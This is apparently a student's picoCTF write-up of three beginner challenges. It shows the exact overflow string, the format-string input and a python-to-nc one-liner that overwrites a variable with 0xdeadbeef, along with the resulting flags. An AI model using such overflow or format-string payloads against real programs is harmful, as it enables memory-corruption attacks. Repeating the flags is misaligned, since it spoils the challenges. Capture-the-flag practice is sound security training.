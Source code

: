 # 1. Buffer Overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.

Additional details will be available after launching your challenge instance.

## Solution:

- I analysed the C file given, and realised that we get the flag through the "sigsegv_handler" function.

- I also realised that the input that we are giving is getting copied into the buf2 string, which has a size of 16, so I tried overflow it with an input that is larger than 16.

- On doing this, we directly get the flag.

```
aditya@aaditya-laptop:~$ nc saturn.picoctf.net 58945
Input: 11111111111111111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:

- I learnt how to do buffer overflow and what it is.


## Notes:

- Nil.

## Resources:

- Nil.


***


# 2. Format String 0

Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Connect with the challenge instance here: nc mimas.picoctf.net 55645

## Solution:

- First, i analysed the C file given, and found that for the first order, our input needs to exceed 64 bytes(2*bufsize-which is defined as 32), so to achievie this, we must use the Gr%114d_Cheese option.
- I was abled to figure it out since we are told to look for format specifiers in the hint, and %114d in "Gr%114d_Cheese" is a format specifier, which when used in a print statement will print out a number which is 114 charecters long, which will satisfy the condition.

- For the second order, I used the "Cla%sic_Che%s%steak" option, since it is the only one with a format specifier, that is "%s" which will try to process a string argument when it doesn't have any, which should break the program, and gives us the flag.


```
aaditya@aaditya-laptop:~$ nc mimas.picoctf.net 55645
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese                                            
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Concepts learnt:

- I learnt how to exploit a vunlnerability in format specifiers.
- I also learned how to analyse programs given.


## Notes:

- Nil.

## Resources:

- Nil.


***

# 3. clutter-overflow

Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890

## Solution:

- First, i analysed the C file given, and found that we basically need to get the code variable to be "deadbeef". To do this, we can exploit buffer overflow on the variable after this, that is clutter, which is what we are asked to input.

- Using buffer overflow on clutter will basically put the extra part of the input in code.

- We can see that variabel size given is 256, so we use hit and trial to find out that the max is 264, after this, the buffer will overflow, using which we can write deadbeef in code.

- I used the command `(python -c "print('A'*264)+'\xef\xbe\xad\xde'") | nc mars.picoctf.net 31890` to enter deadbeef into code. Since, the hex byte represents two charecters and the bytes are read in reverse order.
  
- This gives us the flag by making code and clutter have the same value.

  

```
aaditya@aaditya-laptop:~$ (python -c "print('A'*264)+'\xef\xbe\xad\xde'") | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- I learnt what buffer overflow is, and that `gets()` is vulnerable to it.
- I learnt how to exploit buffer overflow

## Notes:

- Nil.

## Resources:

- Nil.


***
